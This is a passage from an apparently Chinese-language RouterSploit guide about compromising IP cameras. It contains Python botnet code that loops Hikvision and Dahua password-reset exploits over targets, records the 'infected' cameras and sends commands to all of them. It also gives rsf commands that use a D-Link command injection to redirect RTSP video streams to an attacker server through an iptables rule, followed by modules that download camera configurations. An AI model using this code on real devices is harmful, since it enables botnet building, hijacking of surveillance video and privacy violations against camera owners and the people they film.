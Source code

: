 ```python
            'exploits/cameras/hikvision/hikvision_password_reset',
            'exploits/cameras/dahua/dahua_password_reset'
        ]
        
        for exploit_path in exploits_to_try:
            try:
                exploit = self.get_exploit(exploit_path)
                exploit.target = target
                if exploit.run():
                    self.infected_cameras.append(target)
                    return True
            except:
                continue
        return False
    
    def execute_botnet_command(self, command):
        for camera in self.infected_cameras:
            # 在每个受控摄像头上执行命令
            self.run_exploit_with_command(camera, command)
```

### 2. 视频流重定向攻击
```bash
# 1. 获取摄像头控制权
rsf > use exploits/cameras/dlink/dcs_9xx_command_injection
rsf (D-Link DCS-9XX Command Injection) > set target 192.168.1.100
rsf (D-Link DCS-9XX Command Injection) > run "iptables -t nat -A PREROUTING -p tcp --dport 554 -j DNAT --to-destination 192.168.1.200:554"

# 2. 将视频流重定向到攻击者控制的服务器
```

---

## 八、摄像头取证和信息收集

### 1. 摄像头信息收集模块
```bash
# 摄像头指纹识别
rsf > use gathers/camera_fingerprint
rsf (Camera Fingerprint) > set target 192.168.1.100
rsf (Camera Fingerprint) > run

# 配置信息下载
rsf > use gathers/camera_config_download
rsf (Camera Config Download) > set target 192.168.1.100
rsf (Camera Config Download) > run
```

### 2. 时间线重建
```bash
# 获取摄像头日志和事件记录
rsf > use gathers/camera_timeline
rsf (Camera Timeline) > set target 192.168.1.100
rsf (Camera Timeline) > run
```

---